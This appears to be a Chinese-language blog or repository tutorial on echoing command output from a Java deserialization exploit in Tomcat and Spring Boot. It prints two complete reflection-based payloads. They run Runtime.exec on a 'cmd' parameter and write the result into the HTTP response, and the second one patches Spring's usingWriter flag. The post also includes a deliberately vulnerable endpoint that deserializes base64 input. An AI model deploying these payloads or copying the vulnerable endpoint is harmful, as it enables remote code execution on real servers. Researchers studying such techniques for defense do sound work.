






# springboot-tomcat回显

<center>@Y4tacker</center>

## 简单原理

假设现在在内网环境下，只有一个反序列化漏洞并且没有OOB，如何实现回显呢？

答案是在`org.apache.catalina.core.ApplicationFilterChain`这个类中，我们可以看到如果`ApplicationDispatcher.WRAP_SAME_OBJECT`为true就会把request与response对象绑定到lastServicedRequest、lastServicedResponse中



因此如果我们通过反射将`ApplicationDispatcher.WRAP_SAME_OBJECT`设置为true，即可通过反射获取当前请求response，并且回显内容

然而这个是被final修饰的，也很简单，[我之前写了一篇demo](https://github.com/Stakcery/JavaSec/tree/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/%E9%80%9A%E8%BF%87%E5%8F%8D%E5%B0%84%E4%BF%AE%E6%94%B9%E7%94%A8final%E4%BF%AE%E9%A5%B0%E7%9A%84%E5%8F%98%E9%87%8F)可以看看，

因此我们梳理下思路

1、反射修改`ApplicationDispatcher.WRAP_SAME_OBJECT`，让代码逻辑走到if条件里面

2、初始化`lastServicedRequest`和`lastServicedResponse`两个变量，默认为null

3、从`lastServicedResponse`中获取当前请求response，并且回显内容。

## 实现代码--仅仅适用纯Tomcat场景下

```java
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
    Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
    Field modifiersField = Field.class.getDeclaredField("modifiers");
    modifiersField.setAccessible(true);
    modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
    WRAP_SAME_OBJECT_FIELD.setAccessible(true);
    lastServicedRequestField.setAccessible(true);
    lastServicedResponseField.setAccessible(true);

    ThreadLocal<ServletResponse> lastServicedResponse =
            (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);
    ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
    boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);
    String cmd = lastServicedRequest != null
            ? lastServicedRequest.get().getParameter("cmd")
            : null;
    if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {
        lastServicedRequestField.set(null, new ThreadLocal<>());
        lastServicedResponseField.set(null, new ThreadLocal<>());
        WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
    } else if (cmd != null) {

        ServletResponse responseFacade = lastServicedResponse.get();
        responseFacade.getWriter();
        java.io.Writer w = responseFacade.getWriter();

        InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        w.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
        w.flush();
    }
```

Ok，如果只是单纯在tomcat里这里是没有任何问题的，我也在tomcat环境下写了一个jsp测试过，但是接下到了spring的环境下却出了问题，具体是为什么请看下文

## 结合SpringBoot测试

引入依赖

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

加个反序列化功能

```java
@ResponseBody
@RequestMapping("/demo")
public String demo(HttpServletRequest request, HttpServletResponse response) throws Exception{
        try {
            String input = request.getParameter("test");
            byte[] b = new sun.misc.BASE64Decoder().decodeBuffer(input);
            java.io.ObjectInputStream ois = new java.io.ObjectInputStream(new java.io.ByteArrayInputStream(b));
            ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return "This is OK Demo!";
}
```

简单发包，出错了



出错的原因是在最后一行


为什么呢，我们来看这部分的调用栈

```
getOutputStream:548, Response (org.apache.catalina.connector)
getOutputStream:210, ResponseFacade (org.apache.catalina.connector)
getBody:97, ServletServerHttpResponse (org.springframework.http.server)
writeInternal:126, StringHttpMessageConverter (org.springframework.http.converter)
writeInternal:44, StringHttpMessageConverter (org.springframework.http.converter)
write:227, AbstractHttpMessageConverter (org.springframework.http.converter)
writeWithMessageConverters:293, AbstractMessageConverterMethodProcessor (org.springframework.web.servlet.mvc.method.annotation)
handleReturnValue:183, RequestResponseBodyMethodProcessor (org.springframework.web.servlet.mvc.method.annotation)
handleReturnValue:78, HandlerMethodReturnValueHandlerComposite (org.springframework.web.method.support)
```

在这里`this.usingWriter`的原因



必须要是false才行，但是为什么会是true呢

原因在调用`java.io.Writer w = responseFacade.getWriter();`

的时候设置为true



因此spring的日志当中才会出现这个原因导致无输出了

```
 nested exception is java.lang.IllegalStateException: getWriter() has already been called for this response] 
```

那么我们就通过反射修改这个值即可

## 最终实现

```java
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
    Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
    Field modifiersField = Field.class.getDeclaredField("modifiers");
    modifiersField.setAccessible(true);
    modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
    WRAP_SAME_OBJECT_FIELD.setAccessible(true);
    lastServicedRequestField.setAccessible(true);
    lastServicedResponseField.setAccessible(true);

    ThreadLocal<ServletResponse> lastServicedResponse =
            (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);
    ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
    boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);
    String cmd = lastServicedRequest != null
            ? lastServicedRequest.get().getParameter("cmd")
            : null;
    if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {
        lastServicedRequestField.set(null, new ThreadLocal<>());
        lastServicedResponseField.set(null, new ThreadLocal<>());
        WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
    } else if (cmd != null) {

        ServletResponse responseFacade = lastServicedResponse.get();
        responseFacade.getWriter();
        java.io.Writer w = responseFacade.getWriter();
        Field responseField = ResponseFacade.class.getDeclaredField("response");
        responseField.setAccessible(true);
        Response rp = (Response) responseField.get(responseFacade);
        Field usingWriter = Response.class.getDeclaredField("usingWriter");
        usingWriter.setAccessible(true);
        usingWriter.set((Object) rp, Boolean.FALSE);

        InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        w.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
        w.flush();
    }
```


